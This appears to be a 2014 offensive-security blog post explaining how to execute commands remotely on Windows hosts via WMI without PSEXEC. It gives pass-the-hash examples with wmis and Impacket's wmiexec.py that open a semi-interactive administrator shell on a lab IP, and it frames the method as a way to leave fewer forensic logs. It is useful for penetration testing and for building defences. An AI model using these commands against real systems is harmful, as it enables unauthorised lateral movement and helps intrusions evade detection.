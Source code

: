 ---
layout: post
title: "Executing code via SMB / DCOM without PSEXEC"
date: 2014-04-19 21:36:21 -0400
comments: true
categories:
- wmi
- wmis
- impacket
---

PSEXEC has been a staple for Windows post exploitation pivoting and system administration for a long while. The basic premise of how all "psexec" tools work is:

  1. (_Optional_) Upload a service executable (PSEXECSVC.EXE in the case of SysInternal's tool) to the ADMIN$ share
  2. Connect to the service manager on the remote host, and create a service based on either a local (to the remote system) executable or the uploaded one.
  3. Run the service
  4. Stop and delete the service and uploaded file pulling down the resulting output if any from the execution.

Now, as you can guess, the uploading of a file, creating, starting, stopping, and deletion of services create quite the logs and forensic evidence.

As you might imagine, thats not the best thing for us on the offensive side of infosec. Luckily big brother Microsoft provides another option, WMI (Windows Management Interface). I demonstrated the use of this in the past: [HERE](/blog/2013/06/10/volume-shadow-copy-ntdsdit-domain-hashes-remotely-part-1/) and [HERE](/blog/2013/10/06/dumping-a-domain-worth-of-passwords-with-mimikatz/)

The downside to using the WMIC directly is that you need a valid token or a valid password for it to work. Passing the hash didn't used to be an available option.

That has changed with the "wmis" package on Kali Linux that incorporates the ["Pass-the-Hash for 15 years toolkit"](http://passing-the-hash.blogspot.com/2013/07/WMIS-PowerSploit-Shells.html)

(There is a slight problem where you have to play with it a bit to get it working on 64 bit Kali)

The other solution is supplied as an example in the [Impacket library](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=tool&name=Impacket) ["wmiexec.py"](https://code.google.com/p/impacket/source/browse/trunk/examples/wmiexec.py). In my experience there are a few features that make it the better option.

1. Installing it on a random VPS is dead simple and doesn't need the Kali repos to get right, nor Debian/Ubuntu.
2. It defaults to an "semi-interactive shell" which writes and reads output from the ADMIN$ shell by default. Something I would normally have to do manually with a bunch of tools
3. As with the WMIS package, it allows you to just create a process without the ADMIN$ write/read.

Enough crazy talk here is an example usage of each:

## WMIS

### Usage:

```
root@wpad:~# wmis
Usage: [-?NPV] [-?|--help] [--usage] [-d|--debuglevel=DEBUGLEVEL] [--debug-stderr] [-s|--configfile=CONFIGFILE]
        [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report] [--leak-report-full]
        [-R|--name-resolve=NAME-RESOLVE-ORDER] [-O|--socket-options=SOCKETOPTIONS] [-n|--netbiosname=NETBIOSNAME]
        [-W|--workgroup=WORKGROUP] [--realm=REALM] [-i|--scope=SCOPE] [-m|--maxprotocol=MAXPROTOCOL]
        [-U|--user=[DOMAIN\]USERNAME[%PASSWORD]] [-N|--no-pass] [--password=STRING] [-A|--authentication-file=FILE]
        [-S|--signing=on|off|required] [-P|--machine-pass] [--simple-bind-dn=STRING] [-k|--kerberos=STRING]
        [--use-security-mechanisms=STRING] [-V|--version]
        //host

Example: wmis -U [domain/]adminuser%password //host cmd.exe /c dir c:\ > c:\windows\temp\output.txt 
```

## Example:
```
root@wpad:~# wmis -U administrator%aad3b435b51404eeaad3b435b51404ee:88e4d9fabaecf3dec18dd80905521b29 //172.16.102.141 calc.exe
HASH PASS: Substituting user supplied NTLM HASH...
HASH PASS: Substituting user supplied NTLM HASH...
[wmi/wmis.c:172:main()] 1: calc.exe
NTSTATUS: NT_STATUS_OK - Success
```



## wmiexec.py

Using a password, but with hashes you just tell it `-hashes` :

### Usage:
```
root@wpad:~/impacket/examples# ./wmiexec.py 
Impacket v0.9.12-dev - Copyright 2002-2014 Core Security Technologies

usage: wmiexec.py [-h] [-share SHARE] [-nooutput] [-hashes LMHASH:NTHASH]
                  target [command [command ...]]

positional arguments:
  target                [domain/][username[:password]@]<address>
  command               command to execute at the target. If empty it will
                        launch a semi-interactive shell

optional arguments:
  -h, --help            show this help message and exit
  -share SHARE          share where the output will be grabbed from (default
                        C$)
  -nooutput             whether or not to print the output (no SMB connection
                        created)

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

```
### Example:
```
root@wpad:~/impacket/examples# ./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:88e4d9fabaecf3dec18dd80905521b29 administrator@172.16.102.141
Impacket v0.9.12-dev - Copyright 2002-2014 Core Security Technologies

SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 5CCA-B528

 Directory of C:\

07/13/2009  11:20 PM    <DIR>          PerfLogs
10/07/2013  03:26 PM    <DIR>          Program Files
07/14/2009  01:08 AM    <DIR>          Program Files (x86)
04/25/2014  02:21 AM    <DIR>          Users
05/11/2014  03:39 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  52,884,389,888 bytes free

C:\>

```

